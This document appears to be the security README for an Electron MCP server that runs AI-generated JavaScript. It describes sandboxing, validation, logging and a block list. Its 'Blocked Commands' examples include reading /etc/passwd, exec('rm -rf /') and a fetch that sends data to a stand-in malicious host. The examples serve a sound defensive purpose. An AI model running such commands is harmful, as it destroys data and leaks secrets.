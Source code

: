 # Security Implementation

This document describes the security measures implemented in the Electron MCP Server to ensure safe execution of AI-generated commands.

## 🛡️ Security Features

### 1. Code Execution Isolation
- **Sandboxed Environment**: All JavaScript code execution is isolated using a secure Node.js subprocess
- **Resource Limits**: 
  - Maximum execution time: 5 seconds
  - Memory limit: 50MB
  - No filesystem access unless explicitly needed
  - No network access by default
- **Global Restriction**: Dangerous globals like `process`, `require`, `fs` are disabled in the sandbox

### 2. Input Validation & Sanitization
- **Static Analysis**: Commands are analyzed for dangerous patterns before execution
- **Blacklisted Functions**: Blocks dangerous functions like `eval`, `Function`, `require`, etc.
- **Pattern Detection**: Detects potential XSS, injection, and obfuscation attempts
- **Risk Assessment**: All commands are assigned a risk level (low/medium/high/critical)
- **Command Sanitization**: Dangerous content is escaped or removed

### 3. Comprehensive Audit Logging
- **Encrypted Logs**: All execution attempts are logged with encrypted sensitive data
- **Metadata Tracking**: Logs include timestamps, risk levels, execution times, and outcomes
- **Security Events**: Failed attempts and blocked commands are specially flagged
- **Performance Metrics**: Track execution patterns for anomaly detection

### 4. Secure Screenshot Handling
- **Encryption**: Screenshot data is encrypted before storage
- **User Notification**: Clear logging when screenshots are taken
- **Data Minimization**: Screenshots are only stored temporarily
- **Secure Transmission**: Base64 data is transmitted over secure channels

## 🚨 Blocked Operations

The following operations are automatically blocked for security:

### Critical Risk Operations
- Direct `eval()` or `Function()` calls
- File system access (`fs`, `readFile`, `writeFile`)
- Process control (`spawn`, `exec`, `kill`)
- Network requests in user code
- Module loading (`require`, `import`)
- Global object manipulation

### High Risk Patterns
- Excessive string concatenation (potential obfuscation)
- Encoded content (`\\x`, `\\u` sequences)
- Script injection patterns
- Cross-site scripting attempts

## ⚙️ Configuration

Security settings can be configured via environment variables:

```bash
# Enable/disable security features
ENABLE_SANDBOX=true
ENABLE_INPUT_VALIDATION=true
ENABLE_AUDIT_LOG=true
ENABLE_SCREENSHOT_ENCRYPTION=true

# Security thresholds
DEFAULT_RISK_THRESHOLD=medium  # low|medium|high|critical
SANDBOX_TIMEOUT=5000          # milliseconds
MAX_EXECUTION_TIME=30000      # milliseconds

# Encryption
SCREENSHOT_ENCRYPTION_KEY=your-secret-key-here
```

## 📊 Security Metrics

The system tracks various security metrics:

- **Total Requests**: Number of commands processed
- **Blocked Requests**: Commands blocked due to security concerns
- **Risk Distribution**: Breakdown by risk levels
- **Average Execution Time**: Performance monitoring
- **Error Rate**: Failed execution percentage

## 🔍 Example Security Validations

### ✅ Safe Commands
```javascript
// UI interactions
document.querySelector('#button').click()

// Data extraction
document.getElementById('title').innerText

// Simple DOM manipulation
element.style.display = 'none'
```

### ❌ Blocked Commands
```javascript
// File system access
require('fs').readFileSync('/etc/passwd')

// Code execution
eval('malicious code')

// Process control
require('child_process').exec('rm -rf /')

// Network access
fetch('http://malicious-site.com/steal-data')
```

## 🛠️ Development Guidelines

When extending the MCP server:

1. **Always validate input** before processing
2. **Log security events** for audit trails
3. **Test with malicious inputs** to verify security
4. **Follow principle of least privilege**
5. **Keep security dependencies updated**

## 📝 Security Audit Trail

All security events are logged to `logs/security/` with the following information:

- Timestamp and session ID
- Command content (encrypted if sensitive)
- Risk assessment results
- Execution outcome
- User context (if available)
- Performance metrics

## 🚀 Future Enhancements

Planned security improvements:

- Integration with external malware scanners
- Machine learning-based anomaly detection
- Enhanced obfuscation detection
- Real-time threat intelligence feeds
- Compliance reporting features

---

**Note**: This security implementation provides strong protection against common threats, but security is an ongoing process. Regular security audits and updates are recommended.
